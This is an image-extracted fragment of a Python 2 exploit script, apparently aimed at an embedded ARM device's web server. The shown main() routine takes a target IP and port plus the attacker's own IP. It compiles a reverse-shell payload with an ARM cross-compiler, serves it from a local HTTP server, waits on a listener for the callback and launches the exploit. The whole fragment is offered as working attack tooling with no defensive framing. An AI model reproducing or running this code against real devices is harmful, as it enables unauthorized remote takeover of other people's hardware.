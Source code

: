 ```
                        except:
                                    pass
 
                        #Give the device some time to restart the
                        time.sleep(1)
 
            print "[+] Exploit done"
 
 
def main():
            parser = OptionParser()
            parser.add_option("-t", "–target", dest="host_ip", help="IP address of the target")
            parser.add_option("-p", "–port", dest="host_port", help="Port of the targets webserver")
            parser.add_option("-c", "–comp-path", dest="compiler_path", help="path to arm cross compiler")
            parser.add_option("-m", "–my-ip", dest="my_ip", help="your ip address")
 
            options, args = parser.parse_args()
 
            host_ip = options.host_ip
            host_port = options.host_port
            comp_path = options.compiler_path
            my_ip = options.my_ip
 
            if host_ip == None or host_port == None:
                        parser.error("[x] A target ip address (-t) and port (-p) are required")
 
            if comp_path == None:
                        parser.error("[x] No compiler path specified, you need a uclibc arm cross compiler, such as https://www.uclibc.org/downloads/binaries/0.9.30/cross-compiler-arm4l.tar.bz2")
 
            if my_ip == None:
                        parser.error("[x] Please pass your ip address (-m)")
 
 
            if not compile_shell(comp_path, my_ip):
                        print "[x] Exiting due to error in compiling shell"
                        return -1
 
            httpd_thread = threading.Thread(target=start_http_server)
            httpd_thread.daemon = True
            httpd_thread.start()
           
            conn_listener = threading.Thread(target=threaded_listener)
            conn_listener.start()
 
            #Give the thread a little time to start up, and fail if that happens
            time.sleep(3)
 
            if not conn_listener.is_alive():
                        print "[x] Exiting due to conn_listener error"
                        return -1
           
 
            exploit(host_ip, host_port, my_ip)
           
           
            conn_listener.join()
           
            return 0
 
           
```
